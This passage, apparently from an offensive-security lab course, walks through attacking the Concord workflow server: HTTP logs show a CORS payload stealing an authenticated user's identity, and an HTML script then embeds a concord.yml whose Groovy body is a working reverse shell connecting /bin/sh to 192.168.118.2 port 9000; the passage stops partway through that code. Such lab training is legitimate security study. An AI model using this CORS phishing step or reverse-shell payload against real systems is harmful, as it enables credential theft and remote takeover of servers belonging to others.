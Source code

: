 > Listing 16 - UserNotLoggedIn in Logs

Using the provided Kali debugger VM, we have access to a user activity simulator that will visit any page we provide. The simulator includes a user authenticated to Concord. If we didn't start the debugger VM earlier, we'll need to start it now on the _Labs_ page. We'll use this simulator to test our current payload to verify that it is working.

To connect, we'll RDP to the Kali debugger and visit http://simulator. We'll enter our Kali IP and click _Simulate_.

Once the simulation is complete, we'll again check our HTTP server logs.

```
192.168.121.253 - - [07/Apr/2021 19:48:44] "GET / HTTP/1.1" 200 -
192.168.121.253 - - [07/Apr/2021 19:48:45] "GET /?msg={%20%20%22realm%22%20:%20%22apikey%22,%20%20%22username%22%20:%20%22concordAgent%22,%20%20%22displayName%22%20:%20%22concordAgent%22} HTTP/1.1" 200 -
```

> Listing 17 - Logged In User Executing Payload

As expected, the CORS payload worked. When an authenticated user visited the page, our malicious site was able to send a request to Concord and include the user's credentials. Let's decode the message to understand what kind of information we were able to obtain.

```
{
	"realm": "apikey",
	"username": "concordAgent",
	"displayName": "concordAgent"
}
```

> Listing 18 - Decoded Message

We seem to have phished the _concordAgent_ user. Next, let's attempt to reach code execution by sending the concord.yml file we created earlier. We'll start by defining the YAML at the beginning of the script tags in the HTML file. We'll use a string template to make the payload easier to edit if we need to. It's important to note that YAML is very sensitive to whitespace, so we cannot use additional tabs to make this document format easier to read.

```
   <script>
        yml = `
configuration:
  dependencies:
    - "mvn://org.codehaus.groovy:groovy-all:pom:2.5.8"

flows:
  default:
    - script: groovy
      body: |
         String host = "192.168.118.2";
         int port = 9000;
         String cmd = "/bin/sh";
         Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
         Socket s = new Socket(host, port);
         InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
         OutputStream po = p.getOutputStream(), so = s.getOutputStream();
         while (!s.isClosed()) {
         while (pi.available() > 0) so.write(pi.read());
         while (pe.available() > 0) so.write(pe.read());
         while (si.available() > 0) po.write(si.read());
         so.flush();
         po.flush();
         Thread.sleep(50);
         try {
            p.exitValue();
            break;
```